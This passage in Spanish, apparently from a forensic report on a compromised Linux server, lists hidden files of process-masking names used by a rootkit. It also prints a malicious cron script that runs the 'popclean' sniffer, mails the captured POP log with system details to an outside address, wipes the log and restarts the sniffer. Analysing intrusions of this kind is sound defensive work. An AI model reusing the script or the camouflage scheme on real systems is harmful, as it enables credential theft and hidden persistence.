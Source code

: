 \vspace{1em} 
 
 Por su parte, el archivo \texttt{/dev/.libpt} contenía el diccionario de cadenas utilizado por el malware para enmascarar su presencia en la tabla de procesos del sistema:
 
\vspace{1em}

\begin{lstlisting}[style=terminal]
dnsquery
-bash
linux
sysinit
db
identd
plogd
screen
ecko
popclean
\end{lstlisting}

\vspace{1em}
 
 Asimismo, el archivo \texttt{/dev/.libtp} definía los nombres de simulación para los procesos residentes en memoria:
 
 \vspace{1em}

\begin{lstlisting}[style=terminal]
 -bash
linux
dnsquery
sysinit
identd
plogd
db
screen
.tp
popclean
 \end{lstlisting}

\vspace{1em}
 
 De manera coincidente, el archivo \texttt{/dev/.libtr} replicaba los alias de camuflaje para los módulos de intercepción:
 
\vspace{1em}

\begin{lstlisting}[style=terminal]
-bash
linux
dnsquery
sysinit
identd
plogd
db
screen
.tp
popclean
\end{lstlisting}

\vspace{1em}

 El contenido de estos archivos, muestra información sobre procesos
que seguramente leen otros programas durante su ejecución como se vera
mas adelante.


El archivo \texttt{/etc/cron.daily/dnsquery} contiene lo siguiente:

\vspace{1em}

\begin{lstlisting}[style=terminal]

#!/bin/sh
cd /usr/lib/
./popclean -r pop.log > test
mail eckosniffer@yahoo.com -s "Sniff $(uname -a)" < test
kill -9 `/sbin/pidof /usr/lib/popclean`
rm -rf test pop.log
A=$PATH
export PATH=/usr/lib/
popclean -w pop.log &
export PATH=$A

\end{lstlisting}

